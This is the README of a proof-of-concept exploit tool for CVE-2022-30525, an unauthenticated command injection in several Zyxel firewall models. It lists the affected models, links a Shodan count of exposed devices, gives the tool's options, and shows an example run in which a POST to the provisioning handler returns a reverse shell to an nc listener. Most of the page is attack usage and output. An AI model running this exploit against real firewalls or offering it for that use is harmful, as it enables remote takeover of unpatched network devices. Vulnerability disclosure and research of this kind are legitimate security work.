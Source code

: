 # Victorian Machinery

Victorian Machinery is a proof of concept exploit for CVE-2022-30525. The vulnerability is an unauthenticated and remote command injection vulnerability affecting Zyxel firewall's that support zero touch provisioning. Zyxel pushed a fix for this issue on April 28, 2022. The following models are known to be affected:

* USG FLEX 100, 100W, 200, 500, 700
* ATP 100, 200, 500, 700, 800
* USG20-VPN and USG20w-VPN

At the time of writing, there were more than [16,000](https://www.shodan.io/search?query=title%3A%22USG+FLEX+100%22%2C%22USG+FLEX+100w%22%2C%22USG+FLEX+200%22%2C%22USG+FLEX+500%22%2C%22USG+FLEX+700%22%2C%22USG+FLEX+50%22%2C%22USG+FLEX+50w%22%2C%22ATP100%22%2C%22ATP200%22%2C%22ATP500%22%2C%22ATP700%22) affected devices visible on Shodan. Exposing the management web interface *is not* the default setting, which implies there are many more affected systems not exposed to the internet. These systems also support automatic update (not enabled by default) so a good subset are already patched against this issue.

## PoC Video

https://youtu.be/x8Vzq9tm47c

## Options

Victorian Machinery expliots the target and catches a reverse shell using a forked `nc` listener. This was tested on Ubuntu 20.04. The PoC tries to execute `/usr/bin/nc` by default. If your `nc` is somewhere else than you'll need to update the `nc-path` option. See the complete help menu below:

```sh
albinolobster@ubuntu:~/victorian_machinery$ python3 victorian_machinery.py --help

$$\    $$\ $$\             $$\                         $$\                             
$$ |   $$ |\__|            $$ |                        \__|                            
$$ |   $$ |$$\  $$$$$$$\ $$$$$$\    $$$$$$\   $$$$$$\  $$\  $$$$$$\  $$$$$$$\          
\$$\  $$  |$$ |$$  _____|\_$$  _|  $$  __$$\ $$  __$$\ $$ | \____$$\ $$  __$$\         
 \$$\$$  / $$ |$$ /        $$ |    $$ /  $$ |$$ |  \__|$$ | $$$$$$$ |$$ |  $$ |        
  \$$$  /  $$ |$$ |        $$ |$$\ $$ |  $$ |$$ |      $$ |$$  __$$ |$$ |  $$ |        
   \$  /   $$ |\$$$$$$$\   \$$$$  |\$$$$$$  |$$ |      $$ |\$$$$$$$ |$$ |  $$ |        
$$\ \_/  $$\__| \_______|   \____$$\______$$\__|      \__| \_______|\__|  \__|        
$$$\    $$$ |                    $$ |      \__|                                        
$$$$\  $$$$ | $$$$$$\   $$$$$$$\ $$$$$$$\  $$\ $$$$$$$\   $$$$$$\   $$$$$$\  $$\   $$\ 
$$\$$\$$ $$ | \____$$\ $$  _____|$$  __$$\ $$ |$$  __$$\ $$  __$$\ $$  __$$\ $$ |  $$ |
$$ \$$$  $$ | $$$$$$$ |$$ /      $$ |  $$ |$$ |$$ |  $$ |$$$$$$$$ |$$ |  \__|$$ |  $$ |
$$ |\$  /$$ |$$  __$$ |$$ |      $$ |  $$ |$$ |$$ |  $$ |$$   ____|$$ |      $$ |  $$ |
$$ | \_/ $$ |\$$$$$$$ |\$$$$$$$\ $$ |  $$ |$$ |$$ |  $$ |\$$$$$$$\ $$ |      \$$$$$$$ |
\__|     \__| \_______| \_______|\__|  \__|\__|\__|  \__| \_______|\__|       \____$$ |
                                                                             $$\   $$ |
                                  ⚙ jbaines-r7                              \$$$$$$  |
                                 CVE-2022-30525                              \______/ 
                                       🦞                                             

usage: victorian_machinery.py [-h] --rhost RHOST [--rport RPORT] --lhost LHOST [--lport LPORT] [--protocol PROTOCOL] [--nc-path NCPATH]

Zyxel Firewall Command Injection (CVE-2022-30525)

optional arguments:
  -h, --help           show this help message and exit
  --rhost RHOST        The remote address to exploit
  --rport RPORT        The remote port to exploit
  --lhost LHOST        The local address to connect back to
  --lport LPORT        The local port to connect back to
  --protocol PROTOCOL  The protocol handler to use
  --nc-path NCPATH     The path to nc

```

## Example Usage

```sh
albinolobster@ubuntu:~/victorian_machinery$ python3 victorian_machinery.py --rhost 10.0.0.14 --lhost 10.0.0.28

$$\    $$\ $$\             $$\                         $$\                             
$$ |   $$ |\__|            $$ |                        \__|                            
$$ |   $$ |$$\  $$$$$$$\ $$$$$$\    $$$$$$\   $$$$$$\  $$\  $$$$$$\  $$$$$$$\          
\$$\  $$  |$$ |$$  _____|\_$$  _|  $$  __$$\ $$  __$$\ $$ | \____$$\ $$  __$$\         
 \$$\$$  / $$ |$$ /        $$ |    $$ /  $$ |$$ |  \__|$$ | $$$$$$$ |$$ |  $$ |        
  \$$$  /  $$ |$$ |        $$ |$$\ $$ |  $$ |$$ |      $$ |$$  __$$ |$$ |  $$ |        
   \$  /   $$ |\$$$$$$$\   \$$$$  |\$$$$$$  |$$ |      $$ |\$$$$$$$ |$$ |  $$ |        
$$\ \_/  $$\__| \_______|   \____$$\______$$\__|      \__| \_______|\__|  \__|        
$$$\    $$$ |                    $$ |      \__|                                        
$$$$\  $$$$ | $$$$$$\   $$$$$$$\ $$$$$$$\  $$\ $$$$$$$\   $$$$$$\   $$$$$$\  $$\   $$\ 
$$\$$\$$ $$ | \____$$\ $$  _____|$$  __$$\ $$ |$$  __$$\ $$  __$$\ $$  __$$\ $$ |  $$ |
$$ \$$$  $$ | $$$$$$$ |$$ /      $$ |  $$ |$$ |$$ |  $$ |$$$$$$$$ |$$ |  \__|$$ |  $$ |
$$ |\$  /$$ |$$  __$$ |$$ |      $$ |  $$ |$$ |$$ |  $$ |$$   ____|$$ |      $$ |  $$ |
$$ | \_/ $$ |\$$$$$$$ |\$$$$$$$\ $$ |  $$ |$$ |$$ |  $$ |\$$$$$$$\ $$ |      \$$$$$$$ |
\__|     \__| \_______| \_______|\__|  \__|\__|\__|  \__| \_______|\__|       \____$$ |
                                                                             $$\   $$ |
                                  ⚙ jbaines-r7                              \$$$$$$  |
                                 CVE-2022-30525                              \______/ 
                                       🦞                                             

[+] Executing netcat listener
[+] Using /usr/bin/nc
Listening on 0.0.0.0 1270
[+] Sending a POST request to https://10.0.0.14:443/ztp/cgi-bin/handler
Connection received on 10.0.0.14 43957
bash: cannot set terminal process group (10800): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ id
id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
```

## Credit

* [Red Hot Chili Peppers](https://www.youtube.com/watch?v=o-4Fo-gJnXU)
